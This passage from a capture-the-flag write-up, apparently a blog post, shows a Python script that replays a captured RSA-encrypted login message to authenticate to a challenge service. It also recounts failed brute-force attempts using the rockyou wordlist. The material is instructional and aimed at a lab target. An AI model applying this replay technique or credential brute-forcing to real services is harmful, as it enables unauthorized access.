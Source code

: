 Yes, I know that's not how you should send and receive with python's sockets. Yes, I'm using `s` globally. Yes, some of the naming is poor. Under CTF conditions, this is as good as you're going to get ;P.

So, we execute our client, run the `getflag` command, and we're done right? Right?

```
$ python client.py
> getflag
Insufficient permissions! Please authenticate and try again.
```

Damn, we don't have any credentials for this service. We can't see the credentials that were used in the PCAP because we don't have the RSA private key corresponding to the service's public key (which the client uses to encrypt traffic in that direction). So what are we to do?

## Could you repeat that please?
At this point, I lost _a lot_ of time in the CTF trying various methods of authenticating with the service; I extended my python script to brute-force credentials using the rockyou wordlist (this was slow, and bore no fruit), I tried using the `adduser` command with parameters of varying sizes in case there was an overflow onto some hypothetical `is_authenticated` variable on the stack, I tried to search online for the fingerprint of the service's RSA public key in case it had been chosen from the set of weak RSA keys from back when Debian's PRNG for key generation was broken. No dice.

> "Have you considered a replay attack?"
>
> 🤦

Of course, the answer was the take the message which the client sent to the service immediately before it responded with `Authentication successful.` and send it to the service _before_ dropping us into our interactive session - that way we would be logged in, and be able to request the flag.

{% highlight python %}
from Crypto.Cipher import PKCS1_OAEP as cip
from Crypto.PublicKey import RSA
import socket
import base64

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("ctf-ch7.cyberthreat2018.com", 31337))

their = s.recv(1024)
their_key = RSA.importKey(their)

f = open('somepem.pem', 'r')
our_key = RSA.importKey(f.read())

our_public = our_key.publickey().exportKey()

s.send(our_public)

def enc(plain):
    cipher = cip.new(their_key)
    crypt = cipher.encrypt(plain)
    return crypt

def dec(crypt):
    cipher = cip.new(our_key)
    plain = cipher.decrypt(crypt)
    return plain

login_replay = """dWVSS7A86P0D8b0Ce85Z8Bg6phb3uEWIVJCyoGtp3KjQqbDfxTGweVz+aseNwF9J38msGRZt8Ox6
                  Beyb6d70jByoLNoyVyx7Ws4/lxx2TyauSs/iUcaVF9YvWW87K9QGbInQTjrMBgi2Z5WhL/HNF5Am
                  7LIdBblz79r3t6pwI9A889t3ctZuacjcKLAn/m+0DGlnIMgQpgMLFQea7yhwyX7g65UfF1VPw/cG
                  UmuXIS0QHCpTOz1ve2WbgrBBYdn8tqMiDZySzU9IyAJF0vIVuC03Cc/gsQ+vo+84f0qOWYTmz2Z3
                  AQlbmZiewh70MaIteT3cPhKKKHMkt0AyB2Ws8A=="""

s.send(base64.b64decode(login_replay))

print dec(s.recv(256))
